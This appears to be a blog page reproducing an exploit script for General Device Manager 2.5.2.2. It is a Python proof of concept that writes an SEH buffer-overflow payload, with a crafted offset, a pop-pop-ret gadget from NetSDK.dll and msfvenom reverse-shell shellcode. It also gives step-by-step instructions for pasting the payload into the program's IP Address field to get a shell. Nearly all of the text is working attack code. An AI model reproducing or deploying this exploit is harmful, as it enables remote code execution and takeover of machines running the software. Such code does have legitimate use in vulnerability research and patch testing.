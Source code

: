 ```yaml
---
layout: post
title: "General Device Manager 2.5.2.2 - Buffer Overflow (SEH)"
date: 2024-05-25
category: exploit
---
```


# Exploit Title: General Device Manager 2.5.2.2 - Buffer Overflow (SEH)
# Date: 30.07.2023
# Software Link: https://download.xm030.cn/d/MDAwMDA2NTQ=
# Software Link 2:
https://www.maxiguvenlik.com/uploads/importfiles/General_DeviceManager.zip
# Exploit Author: Ahmet Ümit BAYRAM
# Tested Version: 2.5.2.2
# Tested on: Windows 10 64bit

# 1.- Run python code : exploit.py
# 2.- Open pwned.txt and copy all content to clipboard
# 3.- Open Device Manage and press Add Device
# 4.- Paste the content of pwned.txt into the 'IP Address'
# 5.- Click 'OK'
# 6.- nc.exe local IP Port 1337 and you will have a bind shell
# 7.- R.I.P. Condor <3


################################################################

import struct

offset = b"A" * 1308

nseh = b"\xEB\x06\x90\x90" # jmp short

seh = struct.pack('<I', 0x10081827) # 0x10081827 : pop ebx # pop esi # ret  | ascii {PAGE_EXECUTE_READ} [NetSDK.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v4.0.8.66 (C:\Program Files (x86)\DeviceManage\NetSDK.dll)


nops = b"\x90" * 32 

#shellcode: msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1  LPORT=1337 EXITFUNC=thread -a x86 --platform windows -b "\x00\x0a\x0d" -f python --var-name shellcode

shellcode =  b""
shellcode += b"\xd9\xc6\xbb\xae\xc7\xed\x8e\xd9\x74\x24\xf4"
shellcode += b"\x5a\x29\xc9\xb1\x52\x83\xea\xfc\x31\x5a\x13"
shellcode += b"\x03\xf4\xd4\x0f\x7b\xf4\x33\x4d\x84\x04\xc4"
shellcode += b"\x32\x0c\xe1\xf5\x72\x6a\x62\xa5\x42\xf8\x26"
shellcode += b"\x4a\x28\xac\xd2\xd9\x5c\x79\xd5\x6a\xea\x5f"
shellcode += b"\xd8\x6b\x47\xa3\x7b\xe8\x9a\xf0\x5b\xd1\x54"
shellcode += b"\x05\x9a\x16\x88\xe4\xce\xcf\xc6\x5b\xfe\x64"
shellcode += b"\x92\x67\x75\x36\x32\xe0\x6a\x8f\x35\xc1\x3d"
shellcode += b"\x9b\x6f\xc1\xbc\x48\x04\x48\xa6\x8d\x21\x02"
shellcode += b"\x5d\x65\xdd\x95\xb7\xb7\x1e\x39\xf6\x77\xed"
shellcode += b"\x43\x3f\xbf\x0e\x36\x49\xc3\xb3\x41\x8e\xb9"
shellcode += b"\x6f\xc7\x14\x19\xfb\x7f\xf0\x9b\x28\x19\x73"
shellcode += b"\x97\x85\x6d\xdb\xb4\x18\xa1\x50\xc0\x91\x44"
shellcode += b"\xb6\x40\xe1\x62\x12\x08\xb1\x0b\x03\xf4\x14"
shellcode += b"\x33\x53\x57\xc8\x91\x18\x7a\x1d\xa8\x43\x13"
shellcode += b"\xd2\x81\x7b\xe3\x7c\x91\x08\xd1\x23\x09\x86"
shellcode += b"\x59\xab\x97\x51\x9d\x86\x60\xcd\x60\x29\x91"
shellcode += b"\xc4\xa6\x7d\xc1\x7e\x0e\xfe\x8a\x7e\xaf\x2b"
shellcode += b"\x1c\x2e\x1f\x84\xdd\x9e\xdf\x74\xb6\xf4\xef"
shellcode += b"\xab\xa6\xf7\x25\xc4\x4d\x02\xae\x94\x91\x0c"
shellcode += b"\x2f\x03\x90\x0c\x2a\xea\x1d\xea\x5e\x1c\x48"
shellcode += b"\xa5\xf6\x85\xd1\x3d\x66\x49\xcc\x38\xa8\xc1"
shellcode += b"\xe3\xbd\x67\x22\x89\xad\x10\xc2\xc4\x8f\xb7"
shellcode += b"\xdd\xf2\xa7\x54\x4f\x99\x37\x12\x6c\x36\x60"
shellcode += b"\x73\x42\x4f\xe4\x69\xfd\xf9\x1a\x70\x9b\xc2"
shellcode += b"\x9e\xaf\x58\xcc\x1f\x3d\xe4\xea\x0f\xfb\xe5"
shellcode += b"\xb6\x7b\x53\xb0\x60\xd5\x15\x6a\xc3\x8f\xcf"
shellcode += b"\xc1\x8d\x47\x89\x29\x0e\x11\x96\x67\xf8\xfd"
shellcode += b"\x27\xde\xbd\x02\x87\xb6\x49\x7b\xf5\x26\xb5"
shellcode += b"\x56\xbd\x47\x54\x72\xc8\xef\xc1\x17\x71\x72"
shellcode += b"\xf2\xc2\xb6\x8b\x71\xe6\x46\x68\x69\x83\x43"
shellcode += b"\x34\x2d\x78\x3e\x25\xd8\x7e\xed\x46\xc9"


final_payload = offset + nseh + seh + nops + shellcode

# write the final payload to a file
try:
    with open('pwned.txt', 'wb') as f:
        print("[+] Creating %s bytes evil payload..." %len(final_payload))
        f.write(final_payload)
        f.close()
        print("[+] File created!")
except:
    print("File cannot be created!")
            
